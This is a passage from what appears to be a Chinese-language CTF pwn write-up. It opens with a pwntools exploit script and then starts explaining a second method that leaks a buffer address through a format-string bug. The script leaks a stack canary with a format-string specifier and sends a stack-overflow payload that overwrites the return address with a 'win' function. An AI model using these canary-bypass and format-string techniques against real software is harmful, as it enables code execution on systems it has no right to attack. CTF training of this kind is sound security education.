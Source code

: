 ```python

conn.sendlineafter('3. Exit the battle \n', '2')
# Stack overflow, bypassing the canary
conn.sendline("%23$p")
canary = int(conn.recvuntil('\n'), 16)
log.success('canary is {:x}'.format(canary))
conn.recvuntil('Exit the battle \n')
conn.sendline('1')

payload = 'A' * 0x88 + p64(canary) + 'AAAAAAAA' + p64(win)
conn.sendline(payload)
recv = rconn.recvall()
log.success("recv is {}".format(recv))
conn.sendlineafter('Exit the battle \n', '3')
```



## 方法二：

直接通过格式化字符串修改返回地址，首先我们得**泄露buffer的地址**，怎么找呢，通过格式化字符串漏洞，传递`%1$p`，泄露偏移为1的内容，这个偏移为1的是什么内容呢？是**RSI的内容**，RSI**记录了格式化字符串的地址**，**也就是buf的首地址**。64位程序传递前六个参数通过`RDI`、`RSI`、`RDX`、`RCX`、`R8`、`R9`传递，可以传递多个`%p`查看一下，前五个输出的是不是`RSI`、`RDX`、`RCX`、`R8`、`R9`寄存器中的内容。

![image-20200816134436146](./image-20200816134436146.png)
